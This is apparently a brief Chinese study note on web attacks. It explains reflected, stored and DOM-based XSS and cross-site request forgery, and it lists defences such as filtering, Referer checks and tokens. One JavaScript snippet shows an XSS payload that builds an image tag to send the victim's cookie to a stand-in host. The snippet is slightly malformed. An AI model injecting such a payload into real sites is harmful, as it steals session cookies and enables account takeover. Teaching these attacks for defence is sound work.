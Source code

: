 # XSS && CSRF

## 1. XSS

XSS（Cross Site Scripting）跨站脚本攻击。

看起来很深奥，但是这是原理和简单，攻击者将script标签插入用户的浏览的web页面，csript代码会执行，这样可以获取用户的敏感信息。

分类：

反射性
存储型
DOM型：在url后面添加script标签内容
反射性： 比如有个网页需要，填写一个信息并返回给用户，当我们在输入框内容写成下面内容，但返回给用户就执行这个语句了。

```js
var cook = window.cookie
var img = `<img src="www.syte.com/get.php?cook=${cook}"` />
document.write(img)
```

注入这个片段后执行时获取用户 cookie 并把 cookie 发送到 `www.syte.com` 域名中。

在后端过滤这个script来解决这个问题，还有一个标签当img标签加载失败（img有一个onerror方法，图片加载失败时触发这个方法）也可以发送请求。

## 2. CSRF

CSRF（Cross Site Request Forgy）跨站请求伪造，是一种对网站的恶意利用。

举个例子，当你在一个网站上登陆成功以后，攻击者在你登陆的网站上生成一个点击的按钮或连接，比如点击抽奖等。当你点击以后，以你的名义（你登陆后发送请求时，请求会带上cookie来确认你身份）向服务器发送而已请求，比如修改你的账号密码。

csrf

要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1.登录受信任网站A，并在本地生成Cookie。

2.在不登出A的情况下，访问危险网站B。

如何让防范？

验证 HTTP Referer 字段
在请求地址中添加 token 并验证
